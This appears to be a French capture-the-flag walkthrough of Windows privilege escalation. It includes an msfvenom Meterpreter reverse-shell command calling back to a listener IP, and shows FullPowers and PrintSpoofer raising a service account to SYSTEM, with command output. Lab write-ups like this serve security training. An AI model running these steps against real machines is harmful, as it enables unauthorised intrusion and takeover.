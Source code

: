 Vous possédez normalement un shell non privilégié.
Vous souhaitez maintenant vous élever en privilèges.
- Quel utilisateur êtes-vous et quel utilisateur visez-vous ? Effectuer une recherche sur votre moteur de recherche favori afin de voir si des exploits existent.
- Certaines élévations de privilèges se font en plusieurs étapes. Par exemple, l'obtention de plus de privilèges avant l'évélation.

{{< /tab >}}
{{< tab "Niveau 2" >}}
Maintenant que nous possédons un compte de service, nous voulons nous élever en privilèges afin d'obtenir les droits administrateurs.

Création d'un reverse-shell pour meterpreter : 
```sh
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.45.158 LPORT=80 -f exe -o win_tcp.exe
```

Lancement de meterpreter avec le multi/handler

Lancement du payload depuis le netcat : 
```sh
./met_tcp.exe
```

Trouver un exploit pour passer de Local Service à System : 
https://itm4n.github.io/localservice-privileges/?ref=benheater.com

Exploit à télécharger : https://github.com/itm4n/FullPowers
Voir dans Releases pour avoir le binaire.

Exécution (Basic Usage): 
```sh
FullPowers
```

Vérification que l'exploit a fonctionné : 
```sh
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State  
============================= ========================================= =======
SeAssignPrimaryTokenPrivilege Replace a process level token             Enabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Enabled
SeAuditPrivilege              Generate security audits                  Enabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled
SeCreateGlobalPrivilege       Create global objects                     Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set            Enabled
```

-> Nous avons plus de privilèges, notamment le Impersonation Token

Utilisation de printSpofer64.exe : https://github.com/itm4n/PrintSpoofer/releases/tag/v1.0

Exécution : 
```sh
./print.exe -i -c powershell.exe
```

-> Nous sommes désormais en Autorité NT Système

Récupération du flag sur le bureau Administrator.

{{< /tab >}}{{< /tabs >}}
